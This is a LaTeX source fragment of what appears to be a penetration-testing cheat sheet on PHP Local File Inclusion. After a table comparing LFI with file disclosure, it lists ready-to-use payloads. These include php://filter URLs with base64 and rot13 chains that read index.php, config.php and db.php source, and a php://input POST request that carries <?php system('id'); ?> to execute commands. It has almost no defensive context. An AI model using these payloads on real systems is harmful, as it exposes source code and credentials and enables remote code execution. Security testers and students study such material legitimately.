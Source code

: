 \documentclass[12pt]{article}
\begin{document}
\begin{longtable}{|p{5cm}|p{5cm}|}
\hline
\textbf{LFI} & \textbf{LFD} \\
\hline
May execute code & Only discloses files \\
\hline
Can lead to RCE & Usually information leakage only \\
\hline
Includes files into application & Reads file contents \\
\hline
\end{longtable}

\subsection{Advanced PHP Wrappers}

\subsubsection{php://filter - Read Source Code}

\begin{lstlisting}
# Read raw PHP source (base64 encoded)
/index.php?page=php://filter/convert.base64-encode/resource=index.php

# Read with multiple filters
/index.php?page=php://filter/string.toupper|string.rot13/resource=config.php

# Read and convert to lowercase
/index.php?page=php://filter/string.tolower/resource=db.php
\end{lstlisting}

\subsubsection{php://filter Chain Multiple Filters}

\begin{lstlisting}
# Apply multiple transformations
php://filter/convert.base64-encode|convert.iconv.utf-8.utf-16|string.rot13/resource=file
\end{lstlisting}

\subsubsection{php://input - Execute POST Data}

\begin{lstlisting}
# Send PHP code in POST body
POST /index.php?page=php://input
Content-Type: text/plain

<?php system('id'); ?>
\end{lstlisting}
\end{document}

